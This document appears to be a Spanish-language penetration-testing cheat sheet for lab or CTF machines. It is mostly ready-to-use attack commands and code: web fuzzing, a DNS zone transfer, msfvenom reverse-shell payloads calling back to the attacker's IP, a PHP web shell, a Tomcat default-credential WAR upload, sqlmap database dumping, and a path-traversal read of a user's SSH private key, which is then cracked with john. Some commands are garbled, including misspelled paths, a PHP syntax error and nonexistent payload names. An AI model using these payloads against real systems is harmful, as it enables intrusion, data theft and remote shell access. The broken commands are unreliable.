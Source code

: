 ## Fuzzing Web

### Gobuster

``` bash
gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php
```

### Wfuzz

``` bash
wfuzz -c --hc=404 --hl=1 -w /usr/share/wordlisrts/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.IP.domain" -u IP

wfuzz -c --hc 404 --hl 10 -w /usr/share/wordlists/seclists/directory-list-lowercase-2.3-medium.txt http://IP/FUZZ

# dirb http://IP/
# dirsearch -u http://IP/
```

### Transferencia de zona (puerto 53)

``` bash
dig axfr url.domain @IP

# Diccionario de subdominios: /usr/share/wordlisrts/seclists/Discovery/DNS/bitquark-subdomains-top-100000.txt
```

## File Upload

### Payloads para file uploads

``` bash
msfvenom -p php/reverse_php LHOST=MiIP LPORT=443 -f raw > pwned.php

# Estas revshells funcionan mal, por lo que una vez el payload haga su trabajo, hacer una revshell con revchells.com y ejecutarla para que persista (bash -c "payload")
```

### WebShells

nano webshell.php
```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>":
?>
```

Cuando se suba el archivo podremos ejecutar comandos dentro de la ruta.
```http
http://IP/uploads/webshell.php?cmd=id 
```
De ahí podremos usar una revshell urlencodeada.
### Bypass restricción de file upload

Cambiar extensión de los archivos:
pwned.phtml
### Tratamiento de una shell

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
		reset xterm

export TERM=xterm
export SHELL=bash
stty rows 52 columns 204
```

## SQL map

```bash
sqlmap -u http://IP/ruta --forms --dbs --batch
sqlmap -u http://IP/ruta --forms -D database --tables --batch
sqlmap -u http://IP/ruta --forms -D database -T table --columns --batch
sqlmap -u http://IP/ruta --forms -D database -T table -C column,column --dump --batch
```

## Caso Tomcat

```bash
apahce tomcat default credentials: tomcat:s3cret # presoinar esc a veces revela las credenciales
msfvenom -p java/shell_reverse_php LHOST=MiIP LPORT=443 -f war > pwned.war
msfvenom -p java/jsp_shell_reverse_php LHOST=MiIP LPORT=443 -f war > pwned2.war
```

## Local File Inclusion

Cuando en una URL se este llamando a un recurso del servidor:
```http
http://IP/tools/check_if_exists.php?doc=../../../../../../../../../../../../../etc/passwd
```

Para explotar la vulnerabilidad y poder ganar acceso al servidor buscaremos un archivo id_rsa que nos dejara acceder por medio de ssh
```http
http://IP/tools/check_if_exists.php?doc=../../../../../../../../../../../../../home/ghost/.ssh/id_rsa
```

Crearemos un archivo id_rsa con permisos 600 para poderlo usar en ssh
```bash
ssh -i id_rsa ghost@IP 
```

Tambien deberemos de extraer la contraseña del id_rsa por medio de john
```bash
ssh2john id_rsa > hash

john --wordlist=/usr/share/wordlist/rockyou.txt hash
```

